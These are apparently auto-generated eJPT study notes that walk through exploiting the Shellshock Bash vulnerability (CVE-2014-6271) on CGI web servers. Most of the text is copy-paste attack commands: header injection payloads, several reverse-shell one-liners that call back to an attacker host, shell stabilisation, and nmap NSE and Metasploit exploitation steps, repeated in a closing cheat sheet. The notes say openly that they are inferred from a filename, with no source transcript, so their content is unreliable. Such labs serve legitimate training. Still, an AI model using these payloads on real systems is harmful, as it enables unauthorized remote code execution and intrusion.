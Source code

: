 # Exploiting Bash CVE-2014-6271 (Shellshock) — eJPT Study Notes

Note: No transcript was provided. The following summary is inferred from the filename and typical eJPT lab workflow for Shellshock (CVE-2014-6271). Commands are conservative and commonly used in labs. Adjust paths and parameters to your target.

## What the video covers (Introduction / big picture)
- What Shellshock is: a Bash vulnerability (CVE-2014-6271) where Bash executes arbitrary commands appended after a malicious function definition in environment variables.
- Why it matters for web exploitation: HTTP servers using CGI frequently export HTTP headers (User-Agent, Referer, Cookie, etc.) to environment variables for CGI scripts. If a CGI script invokes Bash (directly via shebang `#!/bin/bash` or indirectly), an attacker can trigger remote code execution by sending a crafted header.
- Typical exploitation path: find CGI endpoints (e.g., /cgi-bin/*), send a crafted header to run a test command (id), then obtain a reverse shell, and stabilize it.
- Tools: curl/Burp for POC, nmap NSE to verify/exploit, Metasploit module for automated exploitation.

## Flow (ordered)
1. Recon HTTP(S) service and look for CGI usage (mod_cgi, /cgi-bin/, script extensions like .sh/.cgi/.pl).
2. Enumerate directories and common CGI paths.
3. Test for Shellshock by injecting into a header (User-Agent) and running a benign command (id or whoami).
4. If confirmed, deliver a reverse shell payload.
5. Stabilize your shell and proceed with post-exploitation.
6. Optional: Use NSE or Metasploit if manual fails or for verification.
7. Document findings and remediation: patch Bash and remove/lock down CGI.

## Tools highlighted
- curl (quick POC and exploitation)
- Burp Suite (manual header control)
- nmap with NSE scripts (http-shellshock or http-vuln-cve2014-6271)
- gobuster/dirb/ffuf (enumerate /cgi-bin/)
- netcat (listener), bash/sh (reverse shells)
- Metasploit: exploit/multi/http/apache_mod_cgi_bash_env_exec

## Typical command walkthrough (detailed, copy-paste friendly)

Set up environment variables for convenience:
```bash
export RHOST=10.10.10.10
export RPORT=80
export PROTO=http
export URI=/cgi-bin/status   # change as discovered (e.g., /cgi-bin/test.cgi, /cgi-bin/admin.cgi)
export URL="$PROTO://$RHOST:$RPORT$URI"
export LHOST=YOUR_IP
export LPORT=4444
```

1) Recon and enumeration
```bash
# Basic service/version scan
nmap -sC -sV -p80,443 $RHOST -oN web-nmap.txt

# Enumerate likely CGI paths
gobuster dir -u "$PROTO://$RHOST:$RPORT" -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php -t 50
# Focus on /cgi-bin specifically
gobuster dir -u "$PROTO://$RHOST:$RPORT/cgi-bin/" -w /usr/share/wordlists/dirb/common.txt -x sh,pl,py,cgi -t 50
```

2) Quick Shellshock test (manual)
```bash
# Test via User-Agent injection; echo twice to try to produce a valid HTTP body
curl -i -s "$URL" \
  -H 'User-Agent: () { :;}; echo; echo; /bin/bash -c "id"'
```
- Indicators of success: “uid=… gid=…” printed in the response, HTTP 200 or sometimes 500 with command output.

Alternative headers if User-Agent fails:
```bash
curl -i -s "$URL" -H 'Referer: () { :;}; echo; echo; /bin/bash -c "id"'
curl -i -s "$URL" -H 'Cookie: () { :;}; echo; echo; /bin/bash -c "id"'
```

3) Out-of-band confirmation (if no visible output)
```bash
# Start a listener/sniffer to observe callbacks
sudo tcpdump -ni any icmp and host $LHOST

# Trigger ICMP ping from target to you
curl -s "$URL" -H "User-Agent: () { :;}; /bin/bash -c 'ping -c 1 $LHOST'"
```

4) Get a reverse shell
Listener:
```bash
nc -lvnp $LPORT
```

Payload options (try in order):

- Bash TCP reverse shell:
```bash
curl -s "$URL" \
  -H "User-Agent: () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'"
```

- mkfifo + nc fallback (works even if bash -i redirection blocked):
```bash
curl -s "$URL" \
  -H "User-Agent: () { :;}; /bin/bash -c 'mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc $LHOST $LPORT > /tmp/f; rm -f /tmp/f'"
```

- netcat -e (works only if nc supports -e):
```bash
curl -s "$URL" \
  -H "User-Agent: () { :;}; /bin/bash -c 'nc -e /bin/bash $LHOST $LPORT'"
```

5) Stabilize TTY once connected
```bash
# Inside the reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty cols 120 rows 30
```

6) nmap NSE verification/exploit (optional)
Note: Script names/args can differ by nmap version. Check help if unsure.
```bash
# See available options
nmap --script-help http-shellshock
nmap --script-help http-vuln-cve2014-6271

# Vulnerability check (non-exploit)
nmap -p $RPORT --script http-vuln-cve2014-6271 --script-args "path=$URI" $RHOST

# Command execution with http-shellshock (if available)
nmap -p $RPORT --script http-shellshock \
  --script-args "http-shellshock.uri=$URI,http-shellshock.cmd='id'" $RHOST
```

7) Metasploit (optional)
```bash
msfconsole -q
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS $RHOST
set RPORT $RPORT
set TARGETURI $URI
set PAYLOAD cmd/unix/reverse_bash
set LHOST $LHOST
set LPORT $LPORT
run
```

8) Local Bash quick-test (for validation knowledge; not remote)
```bash
env x='() { :;}; echo VULNERABLE' bash -c 'echo test'
# If vulnerable, "VULNERABLE" prints before "test"
```

## Practical tips
- Shellshock triggers only if the target process invokes Bash. A CGI with shebang `#!/bin/bash` or a wrapper that calls bash is ideal. Python/Perl CGI may still be vulnerable if they call system()/bash.
- If output is not visible, use OOB confirmation (ping/tcpdump) or write to a world-writable location (e.g., /tmp/probe.txt) to confirm RCE.
- Try different headers (User-Agent, Referer, Cookie) and HTTP methods (GET/POST) if one fails.
- HTTPS: add -k to curl to ignore certificate issues: curl -k ...
- Common CGI paths to try: /cgi-bin/status, /cgi-bin/test.cgi, /cgi-bin/admin.cgi, /cgi-bin/stats, /cgi-bin/diagnostics.sh, /cgi-bin/printenv
- Web server errors (500) can still indicate successful execution; inspect body carefully.
- If bash reverse redirection fails, switch to mkfifo+nc or curl/wget dropper approaches.
- Document the exact vulnerable URI, header used, and payload for reporting. Recommend patching Bash (CVE-2014-6271 and follow-ups) and removing/locking down legacy CGI.
- Only test in environments you are authorized to assess.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Find CGI
nmap -sV -p80,443 10.10.10.10
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py -t 50
# Suppose we get /cgi-bin/status

# 2) Test Shellshock
curl -i -s http://10.10.10.10/cgi-bin/status \
  -H 'User-Agent: () { :;}; echo; echo; /bin/bash -c "id"'

# 3) Get shell
nc -lvnp 4444
curl -s http://10.10.10.10/cgi-bin/status \
  -H "User-Agent: () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'"

# 4) Stabilize
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm; ^Z
stty raw -echo; fg; stty cols 120 rows 30
```

## Summary
- Shellshock (CVE-2014-6271) allows command execution via crafted environment variables parsed by Bash. On web servers with CGI, HTTP headers become env vars; a malicious header can trigger Bash to execute appended commands.
- The core payload pattern: `() { :;}; <command>` sent in a header like User-Agent to a Bash-invoking CGI endpoint.
- Workflow: discover CGI endpoints, test with `id`, then deliver a reverse shell, stabilize, and proceed. Tools like curl, Burp, nmap NSE, and Metasploit can assist.
- Remediation: patch Bash, remove/limit CGI, sanitize environment variables, and restrict header handling.